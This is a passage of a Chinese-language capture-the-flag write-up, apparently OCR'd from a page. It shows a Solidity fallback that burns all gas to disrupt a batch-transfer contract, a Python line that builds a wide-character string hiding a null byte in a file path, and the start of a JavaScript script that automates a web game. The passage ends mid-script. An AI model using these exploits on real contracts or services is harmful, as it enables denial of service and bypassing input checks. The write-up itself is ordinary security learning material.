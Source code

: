 ```solidity
            if (!success) {
                pendingWithdrawals[recipients[i]] += amounts[i];
            }
        }
    }

    function withdrawPending() external {
        uint256 amount = pendingWithdrawals[msg.sender];
        pendingWithdrawals[msg.sender] = 0;
        (bool success, ) = payable(msg.sender).call{value: amount}("");
        require(success, "Withdrawal failed");
    }
}
```

资料还说，如果call传入空会调用fallback，于是我们让fallback消耗掉所有的gas就好了。

```solidity
contract BatchTransfer {
    event Received(address caller, uint256 amount, string message);

    fallback() external payable {
        uint256 i;
        uint256 amount;
        for (i = 0; i < (1 << 255); i++) {
            for (i = 0; i < (1 << 255); i++) {
                amount += i;
            }
        }
        emit Received(msg.sender, msg.value, "Fallback was called");
    }
}
```

### 不宽的宽字符

感谢zsw大佬的提醒。用脚本输入bytes一直不过。。。然后手动粘贴就过了。。。

宽字符(wchar_t是UTF-16)转UTF-8后是'Z:\theflag\x00'就行了，然后构造这个宽字符

```python
print(b'Z:\\theflag\x00\x01'.decode('utf-16'))
```

## Web

### 比大小王

写的有点丑。总之就是拉去game，ifelse判断一下大小号，然后等一会再提交，要不然会被ban。

```javascript
function solve() {
    fetch('/game', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json',
        },
        body: JSON.stringify({}),
      })
    .then(response => response.json())
    .then(data => {
      values = data.values;
      inputs = []
      sleep(5000).then(() => { 
        for (let i = 0; i < values.length; i++) {
            if (values[i][0] < values[i][1]) {
```
